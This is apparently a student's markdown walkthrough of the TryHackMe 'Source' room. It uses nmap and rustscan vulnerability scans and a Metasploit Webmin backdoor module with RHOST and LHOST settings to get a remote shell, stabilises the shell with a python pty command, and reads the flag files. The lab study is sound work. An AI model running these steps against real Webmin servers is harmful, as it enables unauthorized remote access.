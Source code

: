 # Source- Another TryHackMe Room 
 - [ ] Compromising a web server

![image](./sss.png)


## DNS Poisoning
 - We can instruct our system to direct us to a particular IP on requesting a specific domain.
 ``` sudo nano /etc/hosts
 ```
 
# The Attack

- Connect to the virtual environment of Tryhackme and start the machine
- So first we need to scan the target IP with nmap but as we have no idea about which port the website is running on, we need to scan all the ports(-p-) which would take a huge time to complete.
-  --script vuln -> To tag the vulnerabilities 
-  sudo nmap -Pn -p- -sV --script vuln -vv -oN src.txt
- in usr/share/nmap/scripts we may filter the ls command as ``` ls | grep vuln``` to see all the vulnerabilities to be checked.
-  ``` sudo tail -f src.txt -> to track a file progress realtime```
##  Rustscan - A nmap alternative 
- Releases->Assests(4 files)->deb file
- ```wget url```
- install the file after adding execution permission to it.
- Basic Usage-> -a for addresses , -- (nmap commands)
- ```sudo rustscan -a src.com -- --script vuln -oN rst.txt```
- runs the scan on open ports(22,10000).
- 10000 port is vulnerable.(Webmin file disclosure).
- rapid7--- a sophisticated framework with which we can exploit almost 70% internet with known vulnerabilities.
- open the db file
- check for the webmin version number with another nmap scan specifying the 10000 port
- filter the exploit lists in exploit.com using metasploit as author.
# For Running the exploit in the target machine
- open ``` msfconsole`	``
- ``` search Webmin```
- A list of exploits is generated
- we can write ```use 7  or info 7```
- We chose 7(backdoor) because we can change the password with it.
- ```show options```
- setting the LHOST and RHOST to carry out the attack by running the payload in the target machine.
- tun0 is LHOST IP as provided by thm.
- RHOST is the machine IP
- ```set RHOST .....  set LHOST ....```
- ```exploit```
- after changing the payload and setting the SSL(helps to establish client server connections), we are finally able to access the server and compromise the machine, but the terminal is unstable.
- ``` python -c 'import pty; pty.spawn("/bin/bash")'```
- ```export TERM=xterm```
- using cd .. and going to home directory to see users we can easily find root.txt and user.txt and complete the challenge.
